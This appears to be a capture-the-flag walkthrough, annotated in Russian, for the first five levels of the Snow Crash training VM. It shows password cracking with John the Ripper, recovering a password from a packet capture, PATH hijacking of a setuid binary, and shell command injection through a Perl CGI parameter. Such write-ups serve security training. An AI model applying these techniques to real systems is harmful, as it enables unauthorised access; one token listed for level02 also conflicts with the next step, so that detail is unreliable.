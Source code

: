 # level00

find / -user flag00 2>/dev/null
cat /usr/sbin/john

dcode.fr:
Rechercher un outil ввести содержимое файла
чуть ниже перейти по ссылке для поиска идентификатора Need to decrypt a message? Try our cipher identifier! https://www.dcode.fr/cipher-identifier

подойдет ROT Cipher https://www.dcode.fr/rot-cipher, можно цезаря
первый результат в списке - пароль

su flag00 с этим паролем nottoohardhere

getflag
Check flag.Here is your token : x24ti5gi3x0ol2eh4esiuxias
перехожу ко 2му уровню
su level01 x24ti5gi3x0ol2eh4esiuxias

# level01
пользователь:пароль(х или другой символ, /etc/shadow расшифрованные пароли):id пользователя uid: gid id группы: домашняя директория: дефолтный shell

Нахожу зашифрованный пароль flag01:42hDRfypTqqnw:3001:3001::/home/flag/flag01:/bin/bash
Создаю файл с этой строкой и передаю в john

https://download.openwall.net/pub/projects/john/contrib/macosx/
  ||
  \/
john-1.8.0.9-jumbo-macosx_avx2.zip

./john ~/Desktop/snow_crash/lvl01ForJohn
  cat john.pot
    42hDRfypTqqnw:abcdefg
либо 
./john ~/Desktop/snow_crash/lvl01ForJohn --show
flag01:abcdefg:3001:3001::/home/flag/flag01:/bin/bash

su flag01
Password: abcdefg
Don't forget to launch getflag !

getflag
Check flag.Here is your token : f2av5il02puano7naaf6adaaf

# level02
ls -la
cat level02.pcap 

https://www.tcpdump.org/manpages/tcpdump.1.html

tcpdump -r ~/level02.pcap -n -xq -tttt \
    'tcp[13] & 8 != 0 and src 59.233.235.218' 2>/dev/null |\
    grep -A 10000 "06:23:34" |\
    grep "0x0030" |\
    cut -d' ' -f5 |\
    ./decoder
 -n   ip   не конвертировать в доменное имя
 tcpdump -r не покажет тело пакета - только заголовки

 -xq покажет тело пакета
 -X  попытается как ascii расшифровать тело пакета

 tcp[13] находим заголовок, который отвечает за длину тела.

tcpdump -r ~/level02.pcap -xq
о tcp пакетах
 https://networkguru.ru/protokol-transportnogo-urovnia-tcp-chto-nuzhno-znat/
  ||
  \/
пакеты с флагами PSH не буферизуются, а сразу в приложение идут. Нам нужны именно они
 картинка Заголовок TCP с ней отсчитываю: source port - 0 и 1 байт, destination port - 2 и 3 ,
 sequence number 4-7 и т.д. => получаю флаги под номером 13
 среди них умножаю этот байт на 8 (00001000 - здесь пуш под номером 5, то есть 8)
tcp[13] & 8 != 0 проверяет, установлен ли этот флаг в 0 или 1


and src 59.233.235.218 фильтруем пакеты по отправителю (отправитель вводит пароль)

tcpdump -r ~/level02.pcap -n -Xq | nl | grep assword
по списку вижу первый непустой пакет - 06:23:34 после запроса пароля

grep -A 10000 "06:23:34" |\
    grep "0x0030" |\
все строки ниже этого времени и содержащие 0x0030 (там тело TCP пакета)
10000 количество отображаемых строк

cut -d' ' -f5 после пробела взять 5й столбец

получаю символ в 16ричной системе
перевожу в ascii. Для этого можно либо онлайн, либо свой декодер использовать (онлайн может не удалять символы при 7f встрече)
 получаю:
66 74 5f 77 61 6e 64 72 7f 7f 7f 4e 44 52 65 6c 7f 4c 30 4c 0d
ft_wandrNDRelL0L

получаю  ft_waNDReL0L

su flag02 с этим паролем ft_waNDReL0L

getflag
Check flag.Here is your token : x24ti5gi3x0ol2eh4esiuxias
перехожу ко 3му уровню
su level03 kooda2puivaav1idi4f57q8iq

# level03
ls -la
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
x - можно запустить
флаг прав s -запустить с правами создателя

ltrace выведет все библиотечные функции, которые используются
ltrace ./level03

system("/usr/bin/env echo Exploit me")
создаю свой echo, меняю PATH на путь к себе вначале, запускаю level03
ls -la /
нахожу место допустимое для записи
d-wx-wx-wx   4 root root   80 Feb  6 13:14 tmp

создаю своё echo
#!/bin/bash
getflag

chmod 777 ./echo
export PATH=/tmp:$PATH

запускаю снова 
./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus

перехожу ко 4му уровню
su level04 qi0maab88jeaj46qoumi7maus

# level04
ls -la
cat level04.pl

обратиться к первому переданному аргументу и его значение присвоить переменной y
  $y = $_[0];

здесь  print `echo $y 2>&1`; ` работают аналогично system

index.py?x=$getflag

x(param("x"));
в квери параметре если указать index.py?x=$(getflag), подставится нужная команда вместо x
curl localhost:4747?x='$(getflag)'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap